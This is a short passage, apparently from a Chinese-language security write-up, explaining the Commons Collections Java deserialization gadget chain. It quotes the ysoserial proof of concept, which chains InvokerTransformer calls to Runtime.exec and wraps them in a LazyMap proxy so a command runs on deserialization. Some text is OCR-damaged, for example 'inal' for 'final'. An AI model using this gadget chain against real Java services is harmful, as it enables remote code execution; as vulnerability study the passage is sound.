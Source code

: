 transform(object)中传入的object是一前一个transform(object)，最终构造如下:
	
	final Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class
	}
	, new Object[]{
		"getRuntime", new Class[0]
	}
	),
		new InvokerTransformer("invoke", new Class[]{
		Object.class, Object[].class
	}
	, new Object[]{
		null, new Object[0]
	}
	),
		new InvokerTransformer("exec",
		new Class[]{
		String.class
	}
	, execArgs),
		new ConstantTransformer(1)
	}
	;	
ysoserial中完整的poc如下:
	
	inal String[] execArgs = new String[] { command };
	final Transformer transformerChain = new ChainedTransformer(
		new Transformer[]{ new ConstantTransformer(1)
	}
	);
	final Transformer[] transformers = new Transformer[] {
		new ConstantTransformer(Runtime.class),
		new InvokerTransformer("getMethod", new Class[] {
	String.class, Class[].class
	}
	, new Object[] {
	"getRuntime", new Class[0]
	}
	),
		new InvokerTransformer("invoke", new Class[] {
	Object.class, Object[].class
	}
	, new Object[] {
	null, new Object[0]
	}
	),
		new InvokerTransformer("exec",
		new Class[] {
	String.class
	}
	, execArgs),
		new ConstantTransformer(1)
	}
	;
	final Map innerMap = new HashMap();
	final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
	final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	// arm with actual transformer chain
	return handler;
	